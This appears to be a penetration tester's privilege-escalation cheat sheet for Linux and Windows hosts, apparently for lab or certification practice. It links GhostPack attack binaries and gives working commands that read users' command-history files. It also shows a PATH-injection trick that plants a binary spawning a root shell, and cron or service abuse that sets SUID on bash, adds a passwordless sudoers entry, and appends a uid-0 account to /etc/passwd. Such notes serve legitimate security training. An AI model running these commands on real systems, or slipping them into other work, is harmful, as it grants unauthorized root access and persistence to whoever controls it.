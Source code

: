 [SharpUp, Seatbelt](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) for windows priv esc vector

[Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) for active directory attack in windows host

### Checklist
```bash
# check if any notes useful in your landing directory with
ls -la # linux
# Check history file
cat /home/USER/.bash_history
```
```powershell
gci -force 
gc C:\users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Linux binary exploit
If the linpeas enum highlighted some binaries for exploit, check

[GTFObins](https://gtfobins.github.io/)



### Path injection or relative path exploit
```bash
# If there is an unknown SUID invoking another binary 
# that does not use absolute path
# And you can manipulate the PATH variable
# Create that binary like
echo "#!/bin/bash" > /tmp/THAT_BINARY
echo "/bin/bash -ip" >> /tmp/THAT_BINARY
export PATH=/tmp:$PATH
# Execute the suid binary and you will get root
```

### Cron job abuse/general priv esc techniques
``` bash
# For cron job, there are many things you can use as a payload
# Modify or create the script
#1. Add sticky bit to the bash file
chmod u+s /bin/bash
#or 
cp /bin/bash /tmp/bash; chmod u+s /tmp/bash
2. Add sudoers
echo "CURRENT_USER ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers 
#3. Call reverse shell
#add reverse shell payload to the script
#4. add new privileged user to /etc/passwd
#Create a new user password with openssl in the target machine
openssl passwd 123
#append the new user to /etc/passwd in such format 
echo "Fakeuser:${HASH}:0:0:root:/root:/bin/bash" >> /etc/passwd
# if there is a $ in the hash, you might have to escape it with \
```
### Modifiable service script exploit
If a service script (.service file or the script used in `ExecStart`) is writable,
you can replace the `ExecStart` part with your PE payload.
Or replace the content of the script which called by the `ExecStart`.
The payload and methodology can be any of the general priv esc tehcniques
